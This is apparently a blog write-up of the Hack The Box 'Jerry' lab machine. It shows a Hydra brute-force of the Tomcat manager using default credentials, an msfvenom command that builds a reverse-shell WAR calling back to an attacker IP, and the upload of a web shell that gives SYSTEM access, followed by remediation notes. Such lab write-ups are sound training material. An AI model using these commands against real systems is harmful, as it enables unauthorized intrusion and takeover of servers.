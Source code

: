 +++
draft = false
date = 2020-06-25T16:04:02+01:00
title = "Jerry"
description = ""
slug = ""
tags = []
categories = []
externalLink = ""
series = []
weight = 6
+++


# Machine info

- OS : Windows
- Difficulty : Easy
- Points : 20
- IP : 10.10.10.95


# Mind Map
![Jerry_MindMap](/images/htb/jerry_mindmap.png)


# Reconnaisance

I start with the usual initial scan to check for useful open ports:

{{< highlight html >}}
Nmap scan report for 10.10.10.95
Host is up (0.078s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE
8080/tcp open  http-proxy
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 (90%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
{{< /highlight >}}

**Port 8080** appears to be the only one open and running a web server.

# Enumeration

Visiting the resource on `10.10.10.95:8080` I am presented with an Apache Tomcat/7.0.88 Control Panel.

![Jerry_Tomcat](/images/htb/jerry_tomcat.png)

***What is Apache Tomcat?***

>Apache Tomcat (sometimes simply "Tomcat") is an open-source implementation of the Java Servlet, JavaServer Pages, Java Expression Language and WebSocket technologies.[3] Tomcat provides a "pure Java" HTTP web server environment in which Java code can run.

>Tomcat is developed and maintained by an open community of developers under the auspices of the Apache Software Foundation, released under the Apache License 2.0 license.

Entering the control panel I could be able to upload a custom malicious application to the server acting as a reverse shell. I know that in the case of Tomcat I will need a **.war** file.

>In software engineering, a WAR file (Web Application Resource[1] or Web application Archive[2]) is a file used to distribute a collection of JAR-files, JavaServer Pages, Java Servlets, Java classes, XML files, tag libraries, static web pages (HTML and related files) and other resources that together constitute a web application.

# Exploitation

So let's try to find a way in to Manager App! In order to bruteforce the authentication, I decide to go with Hydra:

{{< highlight html >}}
hydra -C /opt/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.10.10.95:8080/manager/html
{{< /highlight >}}

Where:
- `-C` is the file containing login and passwords to attempt, in the format "login:pass"
- `http-get` is the service I want to crack

Hydra is able to find out the credentials!

{{< highlight html >}}
[DATA] max 16 tasks per 1 server, overall 16 tasks, 79 login tries, ~5 tries per task
[DATA] attacking http-get://10.10.10.95:8080/manager/html
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
1 of 1 target successfully completed, 1 valid password found
{{< /highlight >}}

I can now access the control panel!


![Jerry_Tomcat](/images/htb/jerry_tomcat_manageapp.png)

**Note**: The web server is running a 64bit version of Windows Server 2012 R2.

![Jerry_Tomcat](/images/htb/jerry_server_info.png)

I have two options:
1. create a malicious `.war` file containing a reverse shell to my machine using `msfvenom`
2. upload an existing one located under `/usr/share/laudanum/jsp/cmd.war`

In case of option **1**, I can create a reverse shell with `msfvenom` like:

{{< highlight html >}}
msfvenom -p java/jsp_shell_reverse_tcp  LHOST=10.10.14.19 LPORT=4456 -f war > rev_shell.war
Payload size: 1088 bytes
{{< /highlight >}}

I go with option **2**, and after uploading the cmd.war file and visiting `10.10.10.96:8080/cmd/cmd.jsp` I am presented with an interactive reverse shell!

![Jerry_Shell](/images/htb/jerry_shell.png)

Entering the `whoami` command, I can see I'm already **nt authority\system**, so there is no need to proceed with privilege escalation!


## Lessons learned and remediations

- There is an exposed port running Apache Tomcat with default credentials. The administrator should have used
a password that is difficult to crack.
- Tomcat should have been running as a user account and not with SYSTEM privilege.

